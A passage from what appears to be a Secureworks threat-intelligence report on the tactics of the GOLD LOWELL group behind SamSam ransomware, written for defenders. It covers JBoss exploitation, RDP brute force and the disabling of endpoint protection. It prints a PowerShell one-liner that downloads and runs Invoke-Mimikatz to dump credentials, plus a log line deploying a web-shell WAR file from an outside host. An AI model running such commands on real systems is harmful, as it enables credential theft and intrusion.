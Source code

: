 Tactics, techniques, and procedures
By analyzing multiple GOLD LOWELL ransomware campaigns, CTU researchers and Secureworks IR analysts have learned about the group's tactics and behaviors.
Exploitation and installation
Between late-2015 and mid-2016, many GOLD LOWELL network intrusions leveraged JexBoss to initially compromise vulnerable Internet-facing JBoss systems. Analysis of JBoss version 6.1.0 application logs on one victim's network revealed an indicator of JexBoss activity:
deploy, url=http:// www . joaomatosf . com/rnp/jbossass.war


The tool allowed the threat actors to deploy web shells to run arbitrary commands on compromised systems (see Figure 4).

Figure 4. Example of a web shell (JBossass.jsp) deployed after the initial JexBoss exploitation. (Source: Secureworks)
In January 2017, GOLD LOWELL began targeting legitimate RDP account credentials, in some cases discovering and compromising accounts using brute-force techniques. Leveraging legitimate account credentials circumvents perimeter-based security controls, as long as the victim does not detect the high volume of unsuccessful brute-force attempts. In one incident, threat actors generated 500,000 failed authentication attempts on a local administrator account prior to compromise. Secureworks IR analysts observed brute force attempts targeting 'administrator,' 'user1,' and 'scans' accounts, suggesting that the group focuses on a list of commonly used account names. During another intrusion, GOLD LOWELL imported the NLBrute tool (see Figure 5) into the victim's environment.

Figure 5. Screenshots of the NLBrute RDP brute-force tool. (Source: Secureworks)
Following an initial exploitation, GOLD LOWELL sometimes transfers tools to the compromised system. During a compromise in early 2018, Secureworks IR analysts observed the threat actors downloading files associated with PsExec, Wmiexec, and RDPWrap onto a compromised system.
Credential theft and account access
GOLD LOWELL follows a standard privilege escalation model, first gaining local administrator access. The threat actors leverage the Mimikatz tool to extract credentials from memory and use them to log into legitimate user accounts with the goal of accessing domain administrator accounts. During multiple engagements in 2016, Secureworks IR analysts observed GOLD LOWELL creating a 'JBoss' user account, which was typically a local administrator account on the compromised JBoss system. In 2017 and early 2018, the group used PowerShell commands to call Mimikatz from an online PowerSploit repository, which is a collection of publicly available PowerShell modules for penetration testing:

powershell.exe iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent[.]com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz –DumpCreds


Discovery
After escalating privileges, the threat actors have performed reconnaissance of the compromised network infrastructure using custom scripts or SystemTools' Hyena tool. Hyena can enumerate details of other connected systems in the network (see Figure 6). The threat actors can then use collected account credentials to gather additional information from those systems, including installed software, configuration settings, and users.

Figure 6. Hyena network administration tool. (Source: SystemTools)
GOLD LOWELL uses custom Visual Basic scripts (.vbs files) and batch files to automate rudimentary tasks. For example, Secureworks IR analysts observed the threat actors using csvde.exe to collect hostnames from AD DS and then employing a custom batch file to parse the list and ping each system with a single packet using ICMP. This process created a list of systems available to the attacker in a file named ok.txt.
SamSam requires a unique RSA private key to encrypt data on each targeted system. The threat actors either generate the public/private key pair on an external system, or they download software to the compromised network to generate the key pair directly on the network and then copy and remove the private key. At this stage, GOLD LOWELL typically downloads a compiled copy of the ransomware from a staging server.
Defensive evasion
During one 2017 incident, GOLD LOWELL's attempt to execute Mimikatz within the victim's environment was quarantined by the organization's endpoint protection tool. The threat actor responded by modifying a registry entry to disable the endpoint tool's scanning functionality. This change allowed the threat actor to execute Mimikatz and collect credentials for 24 user accounts, including some accounts with elevated privileges, in a file named m64.log.
Actions on objectives